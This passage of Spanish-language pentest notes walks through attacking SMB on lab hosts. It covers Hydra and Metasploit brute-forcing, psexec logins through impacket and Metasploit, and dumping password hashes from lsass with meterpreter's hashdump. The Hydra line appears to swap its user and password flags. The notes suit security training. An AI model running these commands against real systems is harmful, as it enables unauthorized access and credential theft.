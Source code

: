 Podemos también hacer ataques de fuerza bruta con Hydra al protocolo SMB:
```bash
hydra -P user.txt -L passwords.txt smb://192.168.0.30
```
En caso de obtener un error haciendo ataques de fuerza bruta al protocolo smb, podemos usar metasploit:
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.0.30
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```
![[Pasted image 20230730145232.png]]
Una vez encontrado el usuario administrador, podemos loguearnos con la herramienta de psexec siempre y cuando algún recurso compartido tenga permisos de escritura:
```bash
impacket-psexec administrator@192.168.0.20
```
Si tiene permisos de escritura:
![[Pasted image 20230729132935.png]]
Si no tiene permisos de escritura:
![[Pasted image 20230730145409.png]]
No obstante, si queremos entrar con metasploit para obtener una sesión de meterpreter, tendríamos que usar el siguiente módulo:
```bash
use exploit/windows/smb/psexec
```
Y establecemos los parámetros:
```bash
set RHOST 192.168.0.20
set RPORT 445
set SMBUSER administrator
set SMBPASS password1
```
Y habremos obtenido lo mismo de antes pero con metasploit una sesión de meterpreter:
![[Pasted image 20230729133215.png]]
Ahora podremos incluso dumpear los passwords de los usuarios, por lo que tenemos primero que mirar al proceso lsass para hacer esto:
```bash
pgrep lsass # Proceso para realizar acciones privilegiadas
migrate 464
hashdump
```
![[Pasted image 20230729133349.png]]
También podemos conocer los usuarios si entramos con la shell y usamos el comando net users, donde vemos que en este caso hay tres usuarios dentro del SMB:
![[Pasted image 20230729133613.png]]
